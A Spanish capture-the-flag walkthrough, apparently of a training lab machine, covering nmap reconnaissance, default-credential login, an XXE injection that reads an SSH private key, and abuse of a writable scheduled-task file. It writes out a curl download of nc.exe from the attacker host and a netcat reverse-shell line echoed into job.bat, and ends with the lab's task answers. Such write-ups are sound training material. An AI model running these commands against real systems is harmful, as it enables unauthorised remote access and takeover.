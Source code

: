 # Markup

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Reconnaissance (Reconocimiento):** Fase crucial en el proceso de pruebas de penetración, donde se recopila información detallada sobre el objetivo. Este proceso incluye el escaneo de puertos, el análisis de los servicios disponibles, la identificación de vulnerabilidades y la recopilación de datos sobre las configuraciones del sistema. Permite a los atacantes descubrir posibles vectores de entrada.
  * **Apache**: Servidor web que puede ser explotado si no se aplica la configuración adecuada o si no se actualizan sus módulos y componentes.
  * **SSH**: Protocolo seguro para acceder de manera remota a servidores, pero con configuraciones débiles (como claves predeterminadas o contraseñas débiles) puede ser una puerta de entrada.
  * **PHP**: Lenguaje de programación común en aplicaciones web; si no se configura de manera segura, puede ser vulnerable a inyecciones y otros ataques.
  * **Scheduled Job Abuse**: Los trabajos programados mal configurados o sin restricción de privilegios pueden ser explotados para ejecutar comandos maliciosos o obtener acceso a recursos restringidos.
  * **Arbitrary File Upload**: Vulnerabilidad en la que los atacantes cargan archivos maliciosos, como shells PHP, para ejecutar código en el servidor y obtener acceso no autorizado.
  * **XXE Injection**: Ataque de inyección de XML External Entity (XXE) que explota la capacidad de procesamiento de XML para acceder a archivos locales o realizar otros ataques como el denegado de servicio.
  * **Weak Permissions**: Permisos mal configurados en el sistema de archivos pueden permitir a usuarios no autorizados acceder o modificar archivos sensibles, facilitando la escalada de privilegios o la exfiltración de datos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Windows** ya que su **ttl=127**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.95.192
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, los puertos **80** (**HTTP**), **22** (**SSH**) y **443** (**HTTPS**) están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales por defecto **admin**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Order** e interceptamos las peticiones. Podemos observar que hay un XML External Entity.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html#main-attacks" %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a leer la clave privada de SSH del usuario.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos la copiamos y le damos permisos para loguearnos.

```bash
chmod 600 id_rsa
ssh -i id_rsa daniel@10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos lo que nos preguntan.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este escenario, **job.bat** es un archivo utilizado para programar una tarea en Windows, que ejecuta el comando **wevtutil.exe** para registrar eventos. Este archivo es ejecutado de manera regular como parte de una tarea programada.

El objetivo es actualizar este proceso de **job.bat** de un script de shell simple a un script de PowerShell y verificar los procesos en ejecución con el comando `ps` en PowerShell.

```bash
icacls job.bat
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al observar que el `(F)` junto a **Users** en los permisos significa que **todos los usuarios** pueden modificar el archivo **job.bat**, se puede explotar esto para agregar un comando de **netcat** en el archivo. De esta forma, cada vez que la tarea programada se ejecute, la máquina víctima se conectará de vuelta a la máquina atacante.

En nuestra máquina atacante.

```bash
wget https://github.com/vinsworldcom/NetCat64/releases/tag/1.11.6.4/nc64.exe
python3 -m http.server
```

En la máquina víctima.

```bash
curl -o nc.exe http://10.10.16.35:8000/nc.exe
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos para generar una Reverse Shell.

```bash
echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.35 1234 > C:\Log-Management\job.bat
```

Nos ponemos en escucha y recibimos la conexión.

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### **Tarea 1**

**¿Qué versión de Apache está corriendo en el puerto 80 del objetivo?**\
**Respuesta:** 2.4.41

#### **Tarea 2**

**¿Qué combinación de nombre de usuario:contraseña inicia sesión con éxito?**\
**Respuesta:** admin:password

#### **Tarea 3**

**¿Cuál es la palabra en la parte superior de la página que acepta la entrada del usuario?**\
**Respuesta:** order

#### **Tarea 4**

**¿Qué versión de XML se utiliza en el objetivo?**\
**Respuesta:** 1.0

#### **Tarea 5**

**¿Qué significa el acrónimo XXE / XEE?**\
**Respuesta:** XML External Entity

#### **Tarea 6**

**¿Qué nombre de usuario podemos encontrar en el código HTML de la página web?**\
**Respuesta:** Daniel

#### **Tarea 7**

**¿Qué archivo se encuentra en la carpeta Log-Management en el objetivo?**\
**Respuesta:** job.bat

#### **Tarea 8**

**¿Qué ejecutable se menciona en el archivo mencionado antes?**\
**Respuesta:** wevtutil.exe
